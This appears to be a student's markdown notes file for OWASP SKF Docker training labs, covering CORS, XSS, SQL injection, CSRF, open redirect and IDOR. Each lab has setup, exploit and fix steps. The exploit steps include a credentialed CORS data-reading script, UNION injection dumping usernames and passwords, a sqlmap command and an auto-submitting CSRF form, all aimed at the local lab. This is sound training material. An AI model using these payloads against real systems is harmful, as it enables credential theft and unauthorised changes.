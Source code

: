 # How to connect to docker
always run your container with --name myContainer
So you can easily connect by:
docker exec -it myContainer /bin/sh
instead of getting the run-time specific container ID first

# For simplicity, change /etc/hosts
Map your local IP to some name in /etc/hosts
<ip> asdf

or just use localhost:
docker run -ti -p 127.0.0.1:5000:5000 -p 127.0.0.1:1337:1337 blabla1337/owasp-skf-lab:xxxx


# CORS
## Preparation
docker pull blabla1337/owasp-skf-lab:cors
docker run -ti -p <ip>:5000:5000 blabla1337/owasp-skf-lab:cors

Note: Run with multiple ports exposed:
docker run -ti -p <ip>:5000:5000 -p <ip>:1337:1337 blabla1337/owasp-skf-lab:cors

## Exploit
edit request, add:
Origin:blabla.nl
-> it gets reflected in the Access-Control-Allow-Origin header

connect to docker and start the evil application:
python3 evil_server.py

edit evil.html and add this script:
```<script>

var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','http://<ip>:5000/confidential', true);
req.withCredentials = true;
req.send();
function reqListener(){
document.getElementById("cors").innerHTML= req.responseText;
}
</script>```
## Fix
replace:
    cors = CORS(app, resources={r"/*": {"origins": "*"}})^M
with:
    cors = CORS(app, resources={r"/*": {"origins": "asdf"}})^M


# XSS
## Preparation
docker pull blabla1337/owasp-skf-lab:cross-site-scripting
docker run -ti -p <ip>:5000:5000 blabla1337/owasp-skf-lab:cross-site-scripting
## Exploit
<script>alert('1')</script>asdf
This will work in Firefox but not in Chrome since Chrome has XSS Auditor implemented.
## Fix
cd templates
change index.html autoescape from false to true


# sql-injection
##Preparation
docker pull blabla1337/owasp-skf-lab:sql-injection
docker run -ti -p <ip>:5000:5000 blabla1337/owasp-skf-lab:sql-injection
## Exploit
<ip>:5000/home/1'
-> causes error

<ip>:5000/home/1 union select 1
<ip>:5000/home/1 union select 1,2
<ip>:5000/home/1 union select 1,2,3
-> enumerate how many columns there are. in this case 3

Note: Users was a hint in the how-to. So we did not need to find this ourselves
<ip>:5000/home/1 union select 1,username,password from users
## Fix
cd models
vi sqlimodel.py
            #cur = db.execute('SELECT pageId, title, content FROM pages WHERE pageId='+pageId)
            cur = db.execute('SELECT pageId, title, content FROM pages WHERE pageId=?',pageId)

!! Careful, this is python, so spaces matter !!


# sql-injection-like
## Preparation
docker pull blabla1337/owasp-skf-lab:sql-injection-like
docker run -ti -p <ip>:5000:5000 blabla1337/owasp-skf-lab:sql-injection-like
## Exploit
use comment
or automated:
python3 sqlmap.py --all --url http://<ip>:50000/home/admin
## Fix
cd models
```
#cur = db.execute('SELECT pageId, title, content FROM pages WHERE pageId='+pageId)
cur = db.execute('SELECT pageId, title, content FROM pages WHERE pageId=?',pageId)
```

# Cross-site-request-forgery
## Preparation
docker pull blabla1337/owasp-skf-lab:cross-site-request-forgery
docker run -ti -p <ip>:5000:5000 -p <ip>:1337:1337 blabla1337/owasp-skf-lab:cross-site-request-forgery
as with CORS, also start the evil server here
## Exploit
make sure your evil server evil.html file includes the following script:
```<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://<ip>:5000/update' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='color' value='Hackzord!'>
  <input type='submit' value='submit'>                                                
</form>                                              
<script>document.getElementById("csrf-form").submit()</script>```
This overwrites the color value. When you refresh the normal application you can see the damage.
## Fix
add hidden input field:
```<input type="hidden" name="CSRFToken"
value="OWY4NmQwODE4ODRjN2Q2NTlhMmZlYWEwYzU1YWQwMTVhM2JmNGYxYjJiMGI4MjJjZDE1ZDZMGYwMGEwOA==">```
and in the application check for the value:
```if not request.form['CSRFToken']=="OWY4NmQwODE4ODRjN2Q2NTlhMmZlYWEwYzU1YWQwMTVhM2JmNGYxYjJiMGI4MjJjZDE1ZDZMGYwMGEwOA==":^M
        return render_template('index.html')```
Very hacky example of course, this should not be one fixed value.

For the flask framework, see https://flask-wtf.readthedocs.io/en/stable/csrf.html
```
from flask_wtf.csrf import CSRFProtect
csrf = CSRFProtect(app)
```


# Open redirect
## Preparation
docker pull blabla1337/owasp-skf-lab:url-redirect
docker pull blabla1337/owasp-skf-lab:url-redirect-hard
docker pull blabla1337/owasp-skf-lab:url-redirect-harder
docker pull blabla1337/owasp-skf-lab:url-redirect-harder2
docker run -ti -p <ip>:5000:5000 blabla1337/owasp-skf-lab:url-redirect-hard
## Exploit
<ip>:5000/redirect?newurl=www.malicioussite.nl
## Fix
```def redirector():
    whitelist = ["home", "dashboard"]
    landing_page = request.args.get('newurl')
    if landing_page in whitelist:
        return redirect("http://www.localhost:5000/" + landing_page, 302)```
whitelist specific redirects that are allowed


# IDOR
## Preparation
docker pull blabla1337/owasp-skf-lab:idor
docker run -ti -p <ip>:5000:5000 blabla1337/owasp-skf-lab:idor
## Exploit
enumerate create a pdf and check result with id
try out random ids
then intercept this POST /download and send it to intruder
mark the id clear and add button
Payload type numbers and choose range
(( OR: then go to payloads and add a list to "Payload Options [Simple list]"/load
for i in {1..1000} ; do echo $i >> a.txt ; done ;
))
run under "Positions"/"Start attack" and check for varying response content length.
We can see that the response length for payload 20 is different
so go back to the website and download the pdf for id=20
## Fix
A real fix would be checking for authorization but there is not even authentication in place, so this would be quite some work.
The "quick-fix" in the challenge is commenting out the generation of the pdf and removing it from the server. Then it's not accessible anymore.
